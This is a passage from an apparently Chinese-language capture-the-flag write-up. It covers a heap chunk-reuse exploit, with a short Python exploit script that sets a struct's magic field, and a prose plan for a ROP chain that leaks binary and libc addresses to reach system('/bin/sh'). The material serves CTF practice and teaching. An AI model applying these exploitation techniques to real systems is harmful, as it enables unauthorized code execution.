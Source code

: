 ![image-20250523002029284](https://oss.nova.gal/img/image-20250523002029284.png)

观察这个顺序，发现 nametag 是后释放的，在 fast / tcache 里都是 FILO，所以显然在这之后我们注册角色就会拿到 nametag 的 chunk。

nametag 我们可控 0x18 里的后 0x10 个字节，正好对应我们 user_t 的 magic 字段。因此，我们拿取一个 nametag，把 lastname 设置为 0x1337，然后执行 logout，再执行 register，再走一遍 7 即可。

至于 case 4 的让 id 变成 0x5FFFFFF + 1，我只能说也不是不行（笑

![image-20250523003538889](https://oss.nova.gal/img/image-20250523003538889.png)

```python
from pwno import *

context.terminal = ["tmux", "splitw", "-h"]

sh = gen_sh()

sla(b"now: ", "nova")
sla(b"Leave\n", b"3")

while b"last name:" not in recvl():
    sla("Leave\n", b"3")

sl(b"nova")
send(p16(0x1337))

sla("Leave\n", b"5")
sla(b"now: ", "nova")
sla("Leave\n", b"7")
dbg()
ia()

```

题目没给 libc，看了一眼 Dockerfile 是拉的 ubuntu，所以应该和我 Arch 大差不差。

## game-of-yap

两次栈溢出，但是保护开的比较多。有两个后门函数肯定是要用的。![image-20250523004310935](https://oss.nova.gal/img/image-20250523004310935.png)

yap 用来 leak binary 地址，nothing 用来做 gadget，关键是拿来干什么。

这个时候的 rsi 就说我们 read 的 buf 指针，因此如果是 system 那直接执行了，问题是我们需要 leak libc 地址。

我们其实可以考虑跳到 yap 中间，但这个时候 rsi 指向的是 buf。前面如果有 gadget 可以把一个 libc 搞到 rsi 也可以。观察后，发现显然并没有这么好用的 gadget，难点在于这个 gadget 要**不破坏 rsp 地址的情况下 retn 从而继续我们的 rop chain**

既然 rdi 是我们可控的，我们观察函数列表，看看有什么能用的，显然是 printf。

因此我们 partial overwrite leak binary，然后 rop 到 printf leak libc，回到 libc_start_main 再来一次 system binsh 即可。

注意，这里我们第一次跳转到 yap + 8 的地方，这样的话他就不会开一个新的栈帧，从而在 pop rbp, retn 的时候回到 main 去。
